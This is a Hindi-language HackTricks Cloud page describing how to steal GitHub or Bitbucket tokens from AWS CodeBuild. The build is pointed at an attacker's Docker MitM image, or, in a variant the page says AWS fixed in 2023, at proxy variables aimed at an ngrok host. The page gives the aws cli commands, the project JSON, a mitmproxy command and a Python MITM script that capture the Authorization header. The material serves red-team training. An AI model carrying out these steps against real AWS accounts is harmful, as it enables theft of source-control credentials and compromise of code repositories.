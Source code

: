 # AWS Codebuild - टोकन लीकेज

<details>

<summary><strong>शून्य से लेकर हीरो तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर मुझे **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपोज़ में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>

## Github/Bitbucket कॉन्फ़िगर किए गए टोकन्स की पुनः प्राप्ति

सबसे पहले, जांचें कि क्या कोई सोर्स क्रेडेंशियल्स कॉन्फ़िगर किए गए हैं जिन्हें आप लीक कर सकते हैं:
```bash
aws codebuild list-source-credentials
```
### डॉकर इमेज के माध्यम से

यदि आप पाते हैं कि उदाहरण के लिए Github के लिए प्रमाणीकरण खाते में सेट है, तो आप **access** (**GH token या OAuth token**) को **exfiltrate** कर सकते हैं जिससे Codebuild को विशेष डॉकर इमेज का उपयोग करके प्रोजेक्ट का निर्माण चलाने के लिए बनाया जा सकता है।

इस उद्देश्य के लिए आप एक नया Codebuild प्रोजेक्ट **create** कर सकते हैं या मौजूदा के **environment** को बदलकर **Docker image** सेट कर सकते हैं।

आप जिस Docker इमेज का उपयोग कर सकते हैं वह है [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm)। यह एक बहुत ही बुनियादी Docker इमेज है जो **env variables `https_proxy`**, **`http_proxy`** और **`SSL_CERT_FILE`** सेट करेगी। इससे आप **`https_proxy`** और **`http_proxy`** में दिए गए होस्ट के अधिकांश ट्रैफिक को इंटरसेप्ट कर सकते हैं और **`SSL_CERT_FILE`** में दिए गए SSL CERT पर भरोसा कर सकते हैं।

1. **अपनी खुद की Docker MitM इमेज बनाएं और अपलोड करें**
* रेपो के निर्देशों का पालन करें अपने प्रॉक्सी IP पते को सेट करने के लिए और अपने SSL सर्ट को सेट करें और **build the docker image**।
* **`http_proxy`** सेट न करें ताकि मेटाडेटा एंडपॉइंट के लिए अनुरोधों को इंटरसेप्ट न किया जा सके।
* आप **`ngrok`** का उपयोग कर सकते हैं जैसे कि `ngrok tcp 4444` अपने होस्ट के लिए प्रॉक्सी सेट करने के लिए।
* एक बार जब आपके पास Docker इमेज बन जाए, तो इसे किसी सार्वजनिक रेपो (Dockerhub, ECR...) में **upload** करें।
2. **environment सेट करें**
* एक **नया Codebuild प्रोजेक्ट** बनाएं या मौजूदा के environment को **modify** करें।
* प्रोजेक्ट को पहले से जनरेट की गई Docker इमेज का उपयोग करने के लिए सेट करें।

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

3. **अपने होस्ट में MitM प्रॉक्सी सेट करें**

* **Github रेपो** में बताए गए अनुसार आप कुछ इस तरह का उपयोग कर सकते हैं:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
**mitmproxy संस्करण जो इस्तेमाल किया गया था वह 9.0.1 था**, यह बताया गया कि संस्करण 10 के साथ यह काम नहीं कर सकता है।
{% endhint %}

4. **बिल्ड चलाएं और क्रेडेंशियल्स कैप्चर करें**

*   आप **Authorization** हेडर में टोकन देख सकते हैं:

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

यह aws cli के साथ भी किया जा सकता है जैसे कि

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~HTTP प्रोटोकॉल के माध्यम से~~

{% hint style="success" %}
**यह कमजोरी AWS द्वारा 20 फरवरी 2023 के सप्ताह में किसी समय सही कर दी गई थी (मुझे लगता है शुक्रवार को)। इसलिए अब एक हमलावर इसका दुरुपयोग नहीं कर सकता :)**
{% endhint %}

एक हमलावर जिसके पास **CodeBuild में उच्च अनुमतियां हैं, Github/Bitbucket टोकन को लीक कर सकता है** जो कॉन्फ़िगर किया गया है या अगर अनुमतियां OAuth के माध्यम से कॉन्फ़िगर की गई थीं, तो **कोड तक पहुंचने के लिए इस्तेमाल किया गया अस्थायी OAuth टोकन**।

* एक हमलावर CodeBuild प्रोजेक्ट में पर्यावरण चर **http\_proxy** और **https\_proxy** जोड़ सकता है जो उसकी मशीन की ओर इशारा करता है (उदाहरण के लिए `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* फिर, github रेपो के URL को HTTP का उपयोग करने के लिए HTTPS के बजाय बदलें, उदाहरण के लिए: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* फिर, प्रॉक्सी चर (http\_proxy और https\_proxy) द्वारा इंगित पोर्ट पर [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) से बेसिक उदाहरण चलाएं
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* अंत में, **Build the project** पर क्लिक करें, **credentials** स्पष्ट पाठ (base64) में mitm पोर्ट पर **भेजे जाएंगे**:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
अब एक हमलावर अपनी मशीन से टोकन का उपयोग कर सकेगा, सभी अधिकारों की सूची बना सकेगा और CodeBuild सेवा का सीधे उपयोग करने से आसानी से (दुरुपयोग) कर सकेगा।
{% endhint %}

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) देखें!
* [**official PEASS & HackTricks swag**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) का संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर मुझे 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** का अनुसरण करें**।
* **HackTricks** के [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपने हैकिंग ट्रिक्स साझा करें।

</details>

